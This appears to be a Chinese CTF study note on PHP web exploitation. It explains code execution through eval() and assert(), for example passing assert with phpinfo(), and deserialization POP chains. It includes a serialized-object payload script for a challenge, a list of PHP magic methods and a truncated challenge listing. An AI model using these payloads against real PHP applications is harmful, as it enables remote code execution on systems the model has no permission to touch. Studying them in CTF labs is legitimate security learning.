 - eval() 函数把字符串按照 PHP 代码来计算（计算=执行）。
- 该字符串必须是合法的 PHP 代码，且必须以分号结尾。
- 如果没有在代码字符串中调用 return 语句，则返回 NULL。如果代码中存在解析错误，则 eval() 函数返回 false

##### assert函数

 功能是判断一个表达式是否成立，返回true or false，重点是函数会执行此表达式。如果表达式为函数如assert(“echo(1)”)，则会输出1，而如果为assert(“echo 1;”)则不会有输出。

题目是反序列化，有echo $b($a),把b=assert  a=phpinfo()

## 反序列化

### **赌徒  构造pop链** 

[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604

其实pop链说白了就是通过不同魔术方法来交叉调用，最后获取想要结果，比如get，这时候可以对对象任意调用一个不存在参数或

最终payload

```
$a = new Start();			// __wakeup()进入，
$a->name = new Info();		// Info的__toString()进入
$a->name->file["filename"] = new Room();	// Room的__get()进入
$a->name->file["filename"]->a= new Room();	// Room的__invoke()进入
echo "<br>";
echo serialize($a);

```

```
__construct()，类的构造函数，一开头就执行，
__destruct()，类的析构函数，死之前才执行
__call()，在对象中调用一个不可访问方法时调用，比如输出没有此方法
__callStatic()，用静态方式中调用一个不可访问方法时调用
__get()，获得一个类的成员变量时调用，获取私有属性，比如用实例化对象调用私有属性,echo $a->name;
__set()，设置一个类的成员变量时调用，设置私有属性，比如对象设置属性，$a->name=10;
__isset()，当对不可访问属性调用isset()或empty()时调用
__unset()，当对不可访问属性调用unset()时被调用
__sleep()，执行serialize()时，先会调用这个函数
__wakeup()，执行unserialize()时，先会调用这个函数
__toString()，类被当成字符串时的回应方法，比如echo 类实例化对象, echo $a;
__invoke()，调用函数的方式调用一个对象时的回应方法，比如给实例化对象加括号， $a();
__set_state()，调用var_export()导出类时，此静态方法会被调用。
__clone()，当对象复制完成时调用
__autoload()，尝试加载未定义的类
__debugInfo()，打印所需调试信息
```



### [极客大挑战 2019]PHP

```
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function __wakeup(){
        $this->username = 'guest';
    }
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
```

[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html